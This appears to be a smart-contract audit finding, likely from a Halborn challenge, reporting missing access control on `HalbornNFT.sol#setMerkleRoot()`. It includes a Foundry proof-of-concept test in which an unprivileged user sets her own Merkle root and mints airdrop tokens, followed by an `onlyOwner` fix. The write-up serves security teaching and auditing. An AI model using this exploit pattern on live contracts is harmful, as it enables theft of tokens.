 ## Missing admin role management in `HalbornNFT.sol#setMerkleRoot()` function.

#### Vulnerability of Details

The `HalbornNFT.sol#setMerkleRoot()` function sets a Merkle Root to perform Merkle proof verification.
```solidity
    function setMerkleRoot(bytes32 merkleRoot_) public {
        merkleRoot = merkleRoot_;
    }
```
Based on the Merkle Root established here, the protocol gives Airdrops to permitted users by using `HalbornNFT.sol#mintAirdrops()`.

```solidity
    function mintAirdrops(uint256 id, bytes32[] calldata merkleProof) external {
        // require(_exists(id), "Token already minted");  <--- remove for testing as error occurred here

        bytes32 node = keccak256(abi.encodePacked(msg.sender, id));
        bool isValidProof = MerkleProofUpgradeable.verifyCalldata(
            merkleProof,
            merkleRoot,
            node
        );
        require(isValidProof, "Invalid proof.");

        _safeMint(msg.sender, id, "");
    }
```

However, as you can see, `HalbornNFT.sol#setMerkleRoot()` does not check whether the caller is the owner of the `HalbornNFT` contract.

As a result, the attacker can reset the contract's Merkle Root without any restrictions and receive the airdrop as desired.

#### Proof of Concept

- The attacker creates the root by specifying a `tokenId`.
- The attacker sets the contract's merkle root by calling `HalbornNFT.sol#setMerkleRoot()`.
- Then, the attacker receives the airdrop by providing the corresponding proof data to the `HalbornNFT.sol#mintAirdrops()` function.

```solidity
    function test_setMerkleProofWithoutPermission() public {
        bytes32[] memory data = new bytes32[](2);
        data[0] = keccak256(abi.encodePacked(ALICE, uint256(16)));
        data[1] = keccak256(abi.encodePacked(ALICE, uint256(19)));
        bytes32 root = m.getRoot(data);

        ALICE_PROOF_1 = m.getProof(data, 0);
        ALICE_PROOF_2 = m.getProof(data, 1);

        vm.startPrank(ALICE);
        nft.setMerkleRoot(root);
        nft.mintAirdrops(uint256(16), ALICE_PROOF_1);
        assertEq(nft.ownerOf(16), ALICE);
        vm.stopPrank();
    }
```

#### Recommendation
It is recommended to implement the admin role management
```solidity
--- function setMerkleRoot(bytes32 merkleRoot_) public {
+++ function setMerkleRoot(bytes32 merkleRoot_) public onlyOwner {
        merkleRoot = merkleRoot_;
    }
```